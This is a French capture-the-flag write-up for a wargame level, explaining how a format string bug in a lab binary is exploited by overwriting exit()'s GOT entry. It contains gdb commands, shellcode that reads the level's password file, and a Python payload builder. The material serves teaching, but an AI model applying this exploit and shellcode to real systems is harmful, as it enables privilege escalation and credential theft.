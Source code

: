 En examinant le binaire, nous pouvons voir qu'un appel a printf est effectue puis juste apres, un appel a exit.
Le printf ne prenant en parametre seulement notre entree (dans un buffer de 100 bytes) nous pouvons en deduire
qu'une faille format string est presente dans le programme. Pour en avoir le coeur net il suffit d'envoyer
"%x" au binaire, et de voir si une addresse de la stack s'affiche. C'est le cas. Notre programme est 
donc vulnerable aux formats strings.

Le flag du user 06 n'est pas present sur la stack (comme lors d'un precedent level), inutile donc de dumper la memoire.
Nous ne pouvons pas ecraser EIP, car un appel a exit() est fait juste apres notre appel a printf(). 

Un moyen efficace d'exploiter une format string suivie d'un appel a exit(), est d'ecraser l'adresse GOT (Global Offset
Table) de l'appel systeme exit() pour la remplacer par l'adresse d'un eventuel shellcode stocke sur la stack. (la stack
etant executable ici...)

Commencons par recuperer l'adresse nous permettant de reecrire sur la GOT :

	$ gdb level05
	$ disas main
	$ disas 0x8048370
	$ x 0x80497e0

Nous avons donc l'adresse necessaire: 0x80497e0

Maintenant nous allons stocke notre shellcode dans une variable d'environnement et recuperer son adresse (soit avec gdb soit avec getenv.c)

	export TOTO=$(python -c "print('\x90'*100 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass')")
	
Maintenant il va falloir reecrire l'adresse 0x80497e0 par celle de notre shellcode. Nous devons ecrire 2 bytes par 2 bytes plutot que les 4 bytes d'un coup. Cela prendra beaucoup moins de temps. 

Le plus propre est d'utiliser python pour creer son exploit, avec la librairie struct.

En testant des valeurs arbitraires (comme des 'AAAABBBBCCCC') on se rend compte que nos valeurs sont stocke a l0eme adresse de la stack

/Ressources/exp.py : 

	import struct

	EXIT_PLT = 0x80497e0
	SHELLCODE = 0xffffde31

	def pad(s):
		return s+"X"*(100-len(s))

	exploit = ""
	exploit += struct.pack("I", EXIT_PLT)		# 0x80497e0
	exploit += struct.pack("I", EXIT_PLT+2)		# 0x80497e2
	exploit += "%4$56935x"           		# 2 derniers byte de l'adresse de notre shellcode (en decimal) auquel on soustrait 17 (padding)
	exploit += "%10$n "*10
	exploit += "%8987006x"           		# bidouiller jusqu'a obtenir 0xffff
	exploit += "%11$n"*10

	print pad(exploit)

Nous arrivons donc a reecrire (2 bytes par 2 bytes) l'adresse de exit() sur la GOT. Le tour est joue.

	python /tmp/exp.py > /tmp/pay
	cat /tmp/pay - | ./level05
	

	$whoami
	=> level06

